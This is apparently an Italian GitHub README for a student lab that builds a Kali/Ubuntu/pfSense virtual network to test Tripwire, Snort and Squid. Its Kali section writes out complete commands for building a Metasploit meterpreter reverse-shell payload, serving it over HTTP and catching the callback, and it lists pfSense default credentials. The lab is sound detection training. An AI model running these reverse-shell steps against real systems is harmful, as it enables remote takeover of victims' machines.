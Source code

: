 

# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.

![Architettura](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Screened-Network.drawio.png)

Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 4 terminali:

 1. **Terminale**: Ottenere indirizzo ip dell'interfaccia di rete della macchina kali 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o Desktop/payloads/shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use multi/handler
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.18
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target. Come esempio è stato eseguito un cambio di permessi ad una cartella
 ```bash
meterpreter > sudo chmod o+x ./DirectoryTarget
```

 4. **Terminale**: Per far ricevere il pacchetto alla macchina target viene esposto un web server al quale sarà possibile scaricare il file *shell-x86.elf*. (prima entrare nella cartella in cui è il file)
```bash
cd Desktop/payloads
sudo python -m http.server 80
```

## Ubuntu Target
Nella macchina target la prima cosa da fare è installare Tripwire che ci permetterà di rilevare l'attacco compiuto dall'attaccante
```bash
sudo apt-get update
sudo apt-get install tripwire
```
Lasciando inalterate le impostazioni di configurazione di default, Tripwire ti chiederà di creare due chiavi.

-   **site key** : questa chiave viene utilizzata per proteggere i file di configurazione. Dobbiamo assicurarci che i file di configurazione non vengano modificati, altrimenti non ci si può fidare del nostro intero sistema di rilevamento. 
    
-   **local key** : questa chiave viene utilizzata su ogni macchina per eseguire i binari. Ciò è necessario per garantire che i nostri file binari non vengano eseguiti senza il nostro consenso.

>  Nota: assicurati di scegliere passphrase non facilmente deducibili

 1.Inizializzare il database 
----------

Ora possiamo inizializzare il database che tripwire utilizzerà per convalidare il nostro sistema. Questo utilizza il file delle policy e controlla i punti specificati all'interno. Poiché questo file non è stato ancora personalizzato per il nostro sistema, avremo molti avvisi, falsi positivi ed errori. Useremo questi come riferimento per mettere a punto il nostro file di configurazione. Il modo di base per inizializzare il database è eseguendo:

```bash
sudo tripwire --init
```

Questo creerà il nostro file di database e genererà alcuni *warnings* che dobbiamo regolare nella configurazione.  Possiamo eseguire il comando `check` e posizionare i file elencati in un file chiamato `test_results`nella nostra directory di configurazione di tripwire:

```bash
sudo sh -c 'tripwire --check | grep Filename > test_results'
```

Se esaminiamo questo file, dovremmo vedere voci simili a questa:

```bash
less /etc/tripwire/test_results
```
```bash
Filename: /etc/rc.boot
Filename: /root/mail
Filename: /root/Mail
Filename: /root/.xsession-errors
. . .
```
2.Configurazione file delle policy 
----------

Ora che abbiamo un elenco di file che attivano tripwire, possiamo esaminare il nostro file di policy e modificarlo per eliminare questi falsi positivi. Apri il file *twpol.txt* nel tuo editor con i privilegi di root:
```bash
sudo nano /etc/tripwire/twpol.txt
```
Eseguire una ricerca per ciascuno dei file restituiti in`test_results`. Commenta tutte le righe che trovi corrispondenti. Fatto ciò, crea una nuova regola, dandogli un nome e un livello di gravità: `severity = $(SIG_HI)`.  Nel corpo verranno indicate le directory o i file a quali verrà applicata la regola che in questo caso è `$(SEC_INVARIANT) (recurse = 0)`; ossia non sono tollerati cambi di permessi o di proprietà nel primo livello della directory.

![rule](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20rule.png)

Salva e chiudi il file al termine delle modifiche. Ora che il nostro file è configurato, dobbiamo implementarlo ricreando il file di policy crittografato che tripwire effettivamente legge:

```bash
sudo twadmin -m P /etc/tripwire/twpol.txt
```
Dopo che questo è stato creato, dobbiamo reinizializzare il database per implementare la nostra politica:

```bash
sudo tripwire --init
```
```
Please enter your local passphrase:
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
Wrote database file: /var/lib/tripwire/tripit.twd
The database was successfully generated.
```
3.Predisposizione all'attacco
----------
Per far si che la macchina target subisca l'attacco è necessario che scaricare l'eseguibile esposto dalla macchina kali attraverso il web server. Dunque, collegandosi all'indirizzo `192.128.1.28/ 80` è possibile scaricare il file ed eseguirlo tramite i seguenti comandi: 
```bash
sudo chmod +x ./shell-x86.elf ##Concediamo diritti per esecuzione
./shell-x86.elf ##Esecuzione
```
Fatto ciò la macchina sarà infetta. Una volta avvenuto l'attacco lanciando il comando 
```bash
sudo tripwire --check 
```
inizierà la procedura di verifica la quale restituisce il seguente report di output:

![report](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20detect.png)

## Pfsense Firewall
L'ultima macchina virtuale da inserire all'interno della reta sarà Pfsense, un distribuzione firewall open-source basata sul sistema operativo FreeBSD. Una volta finita la configurazione iniziale della macchina (opzioni di default), il primo step da affrontare è quello di impostare un nuovo indirizzo IP all'interfaccia di rete LAN. In generale, l'indirizzo che viene attribuito può essere quello del router domestico (es: 192.168.1.1) o potrebbe non essere impostato. Dunque per impostarne uno manualmente (es: 192.168.1.2) basterà attivare il menù dedicato inviando il tasto `2`

![pfsensemenu](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Pfsense%20menu.png)

Fatto ciò, nella macchina target sarà possibile impostare come gateway tale interfaccia: 
```bash
sudo ip route add default via 192.168.1.2
```
 permettendo così a Pfsense di interporsi tra il router e la macchina Ubuntu. 
 
 1.Configurazione Pfsense
----------
Dalla macchina  Ubuntu attraverso un qualsiasi web browser sarà possibile accedere alla GUI per la configurazione di Pfsense (`http://192.168.1.2`) inserendo le credenziali di default: 

 - **Username**: *admin*
 - **Password**: *pfsense*

## Autori

- [Mattia Scuriatti](https://github.com/Me77y99)
- [Gatti Giada](https://github.com/S1090231)

